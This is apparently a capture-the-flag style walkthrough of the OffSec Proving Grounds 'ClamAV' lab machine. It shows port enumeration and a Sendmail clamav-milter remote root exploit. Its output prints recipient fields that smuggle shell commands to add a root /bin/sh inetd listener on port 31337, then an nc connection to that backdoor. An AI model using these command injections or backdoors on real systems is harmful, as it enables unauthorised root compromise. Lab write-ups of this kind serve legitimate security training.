

# ClamAV — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

Sendmail with ClamAV milter RCE exploit → injects a command via email recipient field to add a backdoor listener in inetd → root shell on port 31337.

---

## Enumeration

```bash
nmap -sV -p- 192.168.244.42
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 3.8.1p1 Debian |
| 25 | SMTP | Sendmail 8.13.4 |
| 80 | HTTP | Apache httpd 1.3.33 |
| 139/445 | SMB | Samba smbd 3.0.14a |
| 199 | SNMP | Linux SNMP multiplexer |
| 60000 | SSH | OpenSSH 3.8.1p1 Debian |

Old-school box — Sendmail, ancient Apache, and Samba. The web server on port 80 has some binary code that decodes to: `ifyoudontpwnmeuran0b`. Fair enough.

---

## Exploitation — ClamAV Milter RCE (EDB-4761)

Searching for Sendmail + ClamAV exploits, we find a Perl exploit:



This exploit abuses the ClamAV milter integration with Sendmail. It sends a specially crafted email with a recipient that injects shell commands:

```bash
perl 4761.pl 192.168.177.42
```

```
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.177.42...
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
```

The exploit injects two recipients:
1. One that adds a listener on port 31337 to `/etc/inetd.conf` (running `/bin/sh` as root)
2. One that restarts inetd to activate the change

Now just connect:

```bash
nc 192.168.177.42 31337
```

**Root.** 🎉

---

## Key Takeaways

- **ClamAV milter + Sendmail** is a classic combo vulnerability — the milter processes email headers in an unsafe way
- **inetd** backdoors are old-school but incredibly effective — any service you add to inetd runs on connect
- Legacy systems (Debian Sarge era!) are surprisingly common in CTF environments

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
